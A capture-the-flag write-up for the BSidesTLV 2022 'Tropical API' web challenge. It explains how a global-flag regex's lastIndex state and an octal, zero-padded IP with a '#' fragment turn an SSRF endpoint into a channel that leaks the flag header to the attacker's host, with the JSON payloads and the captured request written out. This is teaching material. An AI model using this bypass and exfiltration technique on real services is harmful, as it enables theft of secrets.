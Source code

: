 ```yaml
---
description: JavaScript Regex Shenanigans
---
```


# Tropical API

## Challenge

{% hint style="info" %}
Web, 23 Solves
{% endhint %}

> This internal API was accidentally exposed to the public. Fortunately, the developer left a backup of the backend source code for us.
>
> User input appears to be properly validated. Can you find a way to get the flag?

```javascript
import express from 'express';
import fetch from 'node-fetch';

if (!process.env.FLAG) {
    throw new Error('FLAG must be set');
}

const server = express();

server.use(express.static('public'));

server.post("/ping", express.json(), async function (req, res) {
    const errors = [];
    const noneHexRegex = /[^0-9a-f]/g;
    const fqdns = Array.isArray(req.body.fqdn) ? req.body.fqdn : [req.body.fqdn];

    if (fqdns.length >= 5) {
        return res.status(400).json({ error: 'Too many FQDNs' });
    }

    for (let fqdn of fqdns) {
        if (typeof fqdn !== "string") {
            errors.push(`${fqdn} must be a string`);
            continue;
        }

        if (noneHexRegex.test(fqdn)) {
            errors.push(`${fqdn} should only contain hexadecimal characters`);
            continue;
        }

        let buf = Buffer.from(fqdn, "hex");

        if (buf.length !== 16) {
            errors.push(`${fqdn} must be 16 bytes long`);
            continue;
        }

        const url = `http://${fqdn}.ping-proxy/ping`;

        try {
            await fetch(url, {
                headers: {
                    'X-FLAG': process.env.FLAG
                }
            });
        } catch (err) {
            errors.push(err.message);
        }
    }

    if (errors.length > 0) {
        res.status(500);
    }

    res.json({ errors });
});

server.listen(1337, function (err) {
    if (err) {
        throw err;
    }
    console.log('Server is up and running on http://localhost:1337');
});

```

## Solution

The premise of this challenge was simple - we had "SSRF-as-a-service", and the flag is in one of the request headers. We need to control `fqdn` to make a request to an arbitrary URL, where we are listening for a request.

The problem is that there is a very restrictive regex check that only allows us to use hexadecimal characters in the `fqdn`.

```javascript
const noneHexRegex = /[^0-9a-f]/g;

...

if (noneHexRegex.test(fqdn)) {
    errors.push(`${fqdn} should only contain hexadecimal characters`);
    continue;
}
```

If we look at the [documantation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/RegExp/test) for `RegExp.prototype.test()`, however, we would notice a very interesting behaviour when `test()` is used with a regex containing the [global flag](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular\_Expressions#advanced\_searching\_with\_flags\_2).

![](<../../.gitbook/assets/Screenshot 2022-07-05 at 4.13.30 PM.png>)

This means that if the regex is being tested _multiple_ times for bad characters, each time the string is only searched from the previously-found index onwards.

This, combined with the fact that we are allowed to provide multiple `fqdn`s, means that we can bypass the restrictions by simply submitting the same payload multiple times. For instance, if we use the following:

```json
{
    "fqdn":[
        "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaax",
        "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaax"
    ]
}
```

The first time the regex is tested, `lastIndex` is set to 32 since the disallowed character, `x`, was found at the end of the string. The second time the regex is tested, no match would be found and `test()` would return `false`.

Great! We can bypass the regex restriction. The next problem is that when converted into a `Buffer` from hex, the length of the `Buffer` must be 16. This means we need a minimum of 32 characters in our `fqdn`.

```javascript
let buf = Buffer.from(fqdn, "hex");

if (buf.length !== 16) {
    errors.push(`${fqdn} must be 16 bytes long`);
    continue;
}
```

Luckily, the `Buffer` stops when the first non-hexadecimal character is encountered, so it's fine to have non-hexadecimal characters after the first 32 bytes.

But how do we provide a URL that starts with 32 bytes of hexadecimal characters? My teammate Enyei found this very helpful [article](https://www.hacksparrow.com/networking/many-faces-of-ip-address.html) that describes the various ways that IP addresses can be represented.

In this case, the octal notation proved very helpful. We could lead with as many `0`s as we want, which is a hexadecimal character. Then, we can use any [octal IP address converter](https://www.browserling.com/tools/ip-to-oct) to convert our public IP address to octal form. For example:

```json
{
    "fqdn":[
        "000000000000000000000002730000424#",
        "000000000000000000000002730000424#"
    ]
}
```

The ending `#` will turn the trailing `.ping-proxy/ping` into a URL fragment, making the final URL simply that of our public IP address.

This allows us to receive the request and get our flag.

```http
GET / HTTP/1.1
accept: */*
accept-encoding: gzip, deflate, br
connection: close
user-agent: node-fetch
x-flag: BSidesTLV2022{JavAsCriPtMaStEr}
Host: REDACTED
```

